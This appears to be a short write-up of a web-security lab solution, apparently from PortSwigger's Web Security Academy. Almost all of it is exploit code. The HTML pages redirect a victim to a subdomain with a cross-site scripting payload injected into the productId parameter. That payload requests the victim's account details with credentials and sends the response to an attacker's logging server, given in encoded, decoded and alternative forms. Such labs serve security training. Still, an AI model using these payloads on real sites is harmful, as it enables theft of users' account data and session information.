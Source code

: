 ```html
<html>
<script>
    document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4%3cscript%3e var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='%2bthis.responseText; };%3c/script%3e&storeId=1"
</script>
</html>
```

The decoded version being:

```html
<html>
<script>
   document.location="http://SUBDOMAIN.VULNERABLE-APPLICATION.com/?productId=4
      <script> 
         var req = new XMLHttpRequest(); 
         req.onload = reqListener;
         req.open('get','https://VULNERABLE-APPLICATION.com/accountDetails',true); 
         req.withCredentials = true; 
         req.send();
         function reqListener() {
            location='https://ATTACKERS-SERVER-LOG-LOCATION.net/log?key='+this.responseText; 
      };</script>&storeId=1"
</script>
</html>
```

Another version is the following:

```html
<!DOCTYPE html>
<html lang="en">
    <head>
        <meta charset="UTF-8">
        <meta name="viewport" content="width=device-width, initial-scale=1.0">
        <title>Document</title>
    </head>
    <body>
        <h1>Hello</h1>

        <script>
            window.location ="http://stock.ID.web-security-academy.net/?productId=&storeId=3"
        </script>
    </body>
</html>
```

With the following being URL encoded and put after the `productId=` parameter - where XSS is present:

```html
<script>
    const request = new XMLHttpRequest()

    request.open("get", "https://ID.web-security-academy.net/accountDetails", true)

    request.onload= ()=>{
        window.location = "https://exploit-ID.exploit-server.net/exploit?key=" + request.responseText
    }

    request.withCredentials = true
    request.send()
</script>
```